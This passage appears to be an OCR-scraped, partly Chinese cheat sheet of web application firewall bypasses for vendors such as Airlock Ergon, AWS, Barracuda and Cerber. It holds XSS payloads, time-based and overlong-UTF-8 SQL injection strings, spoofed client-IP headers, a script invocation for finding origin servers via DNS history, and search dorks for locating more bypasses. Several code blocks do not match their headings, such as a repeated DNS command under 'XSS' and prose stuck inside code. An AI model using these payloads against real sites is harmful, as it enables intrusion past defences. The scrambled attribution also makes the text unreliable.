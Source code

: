 On Twitter:  
`site:twitter.com +<wafname> bypass`

On Pastebin  
`site:pastebin.com +<wafname> bypass`

**0X06    拓展 Bypass 姿势**
------------------------

### **Airlock Ergon**

```
Case: XSS<script>window['alert'](0)</script><script>parent['alert'](1)</script><script>self['alert'](2)</script>Case: SQLiSELECT if(LPAD(' ',4,version())='5.7',sleep(5),null);1%0b||%0bLPAD(USER,7,1)可以使用许多替代原生JavaScript的方法:
```

**AWS**

SQLi Bypass by @enkaskal

```
很多时候，服务器可以接收各种SSL/TLS密码和版本的连接。初始化到waf不支持的版本找出waf支持的密码(通常WAF供应商文档对此进行了讨论)。找出服务器支持的密码(SSLScan这种工具可以帮助到你)。找出服务器支持但waf不支持的
```

```
bash bypass-firewalls-by-DNS-history.sh -d <target> --checkall
```

### **Barracuda**

Cross Site Scripting by @WAFNinja

```
bash bypass-firewalls-by-DNS-history.sh -d <target> --checkall
```

HTML Injection by @Global-Evolution

```
X-Originating-IP: 127.0.0.1X-Forwarded-For: 127.0.0.1X-Remote-IP: 127.0.0.1X-Remote-Addr: 127.0.0.1X-Client-IP: 127.0.0.1
```

XSS Bypass by @0xInfection

```
X-Originating-IP: 127.0.0.1X-Forwarded-For: 127.0.0.1X-Remote-IP: 127.0.0.1X-Remote-Addr: 127.0.0.1X-Client-IP: 127.0.0.1
```

Barracuda Spam & Virus Firewall 5.1.3 - Remote Command Execution (Metasploit) by @xort

### **Cerber (WordPress)**

Username Enumeration Protection Bypass by HTTP Verb Tampering by @ed0x21son

```
SQLi Overlong UTF-8 Sequence Bypass (>= v4.2.4) by @Sec Consult%C0%80'+union+select+col1,col2,col3+from+table+--+
```
